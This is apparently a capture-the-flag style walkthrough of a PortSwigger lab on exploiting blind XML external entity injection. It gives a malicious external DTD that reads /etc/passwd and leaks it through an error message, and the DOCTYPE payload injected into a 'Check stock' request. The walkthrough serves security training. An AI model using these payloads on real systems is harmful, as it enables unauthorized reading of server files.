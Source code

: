 # Blind XXE - to retrieve data via error messages

## 📌 Lab Details
- **Title**: Exploiting blind XXE to retrieve data via error messages
- **Difficulty**: Practitioner
- **Category**: XML external entity injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/9f3ddc22a43e31e32c37a3cee3bfe89c7b6f352368730aebcd17a246429c83f0?referrer=%2fweb-security%2fxxe%2fblind%2flab-xxe-with-data-retrieval-via-error-messages

## 🔍 Summary
This lab demonstrates how to exploit a **blind XXE vulnerability** by using a **malicious external DTD** that tricks the server into loading a **fake file path**. This path includes the contents of `/etc/passwd`, causing an **error message** that leaks the file content.

## 🛠 Steps to Solve
1. Inject the following malicious **DTD** file on the Exploit server:
   ```sh
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
   %eval;
   %exfil;
   ```
2. Intercept the "Check stock" **POST** request in Burp Suite.
3. Insert the following **external entity** in between XML declaration:
   ```sh
   <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
   ```

## 📖 Key Takeaways
- This app **parses XML** but doesn't show direct results (blind XXE).
- You use an **external DTD** hosted on the **exploit server** to craft the payload.
- This is a form of **error-based exfiltration** using XXE — a clever way to bypass blind output restrictions.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/914a493e-62ab-4589-8f0c-5cce5e7ace75" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/697a82da-9ff6-4e56-a7ac-89826d6a897a" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/a63151c8-c447-468d-af16-0279ce3af1e0" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/6b19866d-9235-46b9-a652-0de4ab14ae61" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e62e7877-4268-4af2-8dcf-9dcf0cfd3606" />
